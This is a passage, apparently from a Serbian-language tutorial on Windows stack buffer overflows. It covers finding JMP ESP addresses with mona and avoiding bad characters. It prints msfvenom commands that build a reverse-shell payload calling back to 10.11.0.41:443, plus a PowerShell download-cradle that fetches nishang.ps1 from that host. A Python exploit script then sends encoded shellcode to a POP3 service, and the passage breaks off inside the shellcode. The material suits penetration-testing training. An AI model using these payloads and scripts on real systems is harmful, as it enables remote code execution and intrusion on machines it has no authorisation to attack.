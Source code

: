 Sada, unutar ove memorije trebali biste pronaći neke bajtove JMP ESP, da biste to uradili izvršite:

```
!mona find -s "\xff\xe4" -m name_unsecure.dll # Search for opcodes insie dll space (JMP ESP)
!mona find -s "\xff\xe4" -m slmfc.dll # Example in this case
```

**Zatim, ako se pronađe neka adresa, odaberite onu koja ne sadrži nijedan loš karakter:**

![](<../.gitbook/assets/image (36) (1).png>)

**U ovom slučaju, na primer: \_0x5f4a358f**\_

## Kreirajte shellcode

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.41 LPORT=443 -f c -b '\x00\x0a\x0d'
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://10.11.0.41/nishang.ps1')\"" -f python -b '\x00\x0a\x0d'
```

Ako eksploit ne radi, iako bi trebao (možete videti sa ImDebg da je shellcode dostignut), pokušajte da kreirate druge shellcode-ove (msfvenom će kreirati različite shellcode-ove za iste parametre).

**Dodajte nekoliko NOPS-a na početak** shellcode-a i koristite ga i povratnu adresu za JMP ESP, i završite eksploit:

```bash
#!/usr/bin/python

import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
ip = '10.11.25.153'
port = 110

shellcode = (
"\xb8\x30\x3f\x27\x0c\xdb\xda\xd9\x74\x24\xf4\x5d\x31\xc9\xb1"
"\x52\x31\x45\x12\x83\xed\xfc\x03\x75\x31\xc5\xf9\x89\xa5\x8b"
"\x02\x71\x36\xec\x8b\x94\x07\x2c\xef\xdd\x38\x9c\x7b\xb3\xb4"
"\x57\x29\x27\x4e\x15\xe6\x48\xe7\x90\xd0\x67\xf8\x89\x21\xe6"
"\x7a\xd0\x75\xc8\x43\x1b\x88\x09\x83\x46\x61\x5b\x5c\x0c\xd4"
"\x4b\xe9\x58\xe5\xe0\xa1\x4d\x6d\x15\x71\x6f\x5c\x88\x09\x36"
"\x7e\x2b\xdd\x42\x37\x33\x02\x6e\x81\xc8\xf0\x04\x10\x18\xc9"
"\xe5\xbf\x65\xe5\x17\xc1\xa2\xc2\xc7\xb4\xda\x30\x75\xcf\x19"
"\x4a\xa1\x5a\xb9\xec\x22\xfc\x65\x0c\xe6\x9b\xee\x02\x43\xef"
"\xa8\x06\x52\x3c\xc3\x33\xdf\xc3\x03\xb2\x9b\xe7\x87\x9e\x78"
"\x89\x9e\x7a\x2e\xb6\xc0\x24\x8f\x12\x8b\xc9\xc4\x2e\xd6\x85"
"\x29\x03\xe8\x55\x26\x14\x9b\x67\xe9\x8e\x33\xc4\x62\x09\xc4"
"\x2b\x59\xed\x5a\xd2\x62\x0e\x73\x11\x36\x5e\xeb\xb0\x37\x35"
"\xeb\x3d\xe2\x9a\xbb\x91\x5d\x5b\x6b\x52\x0e\x33\x61\x5d\x71"
"\x23\x8a\xb7\x1a\xce\x71\x50\x2f\x04\x79\x89\x47\x18\x79\xd8"
"\xcb\x95\x9f\xb0\xe3\xf3\x08\x2d\x9d\x59\xc2\xcc\x62\x74\xaf"
"\xcf\xe9\x7b\x50\x81\x19\xf1\x42\x76\xea\x4c\x38\xd1\xf5\x7a"
"\x54\xbd\x64\xe1\xa4\xc8\x94\xbe\xf3\x9d\x6b\xb7\x91\x33\xd5"
"\x61\x87\xc9\x83\x4a\x03\x16\x70\x54\x8a\xdb\xcc\x72\x9c\x25"
"\xcc\x3e\xc8\xf9\x9b\xe8\xa6\xbf\x75\x5b\x10\x16\x29\x35\xf4"
"\xef\x01\x86\x82\xef\x4f\x70\x6a\x41\x26\xc5\x95\x6e\xae\xc1"
```